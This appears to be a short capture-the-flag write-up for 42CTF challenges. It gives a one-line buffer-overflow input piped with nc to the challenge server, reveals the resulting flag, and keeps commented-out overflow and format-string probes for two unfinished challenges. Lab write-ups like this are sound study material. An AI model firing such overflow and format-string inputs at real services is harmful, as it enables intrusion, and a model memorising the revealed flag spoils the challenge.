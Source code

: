 ## The Answer
```sh
python3 -c "print('A' * 40 + '*')" | nc challenges.42ctf.org 3001
```

<details>
<summary markdown="span">Answer</summary>

flag ``
of_course_it_was_42
``
</details>

## GOTcha

In Progress
<!-- ```sh
# 72 a's

$ echo "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa" | nc challenges.42ctf.org 3003

. . .
Gimme a trusted input plz:
sh: 1: ??1?I??^H??H???PTI???@: not found
. . .
``` -->

## Stack leak

In Progress
<!-- ```r
$ nc challenges.42ctf.org 3006
What is the flag?
%3%s        
%s is not the flag!

$ nc challenges.42ctf.org 3006
What is the flag?
%1$s
%1$s is not the flag!

$ nc challenges.42ctf.org 3006
What is the flag?
%2$s    
(null) is not the flag! 
``` -->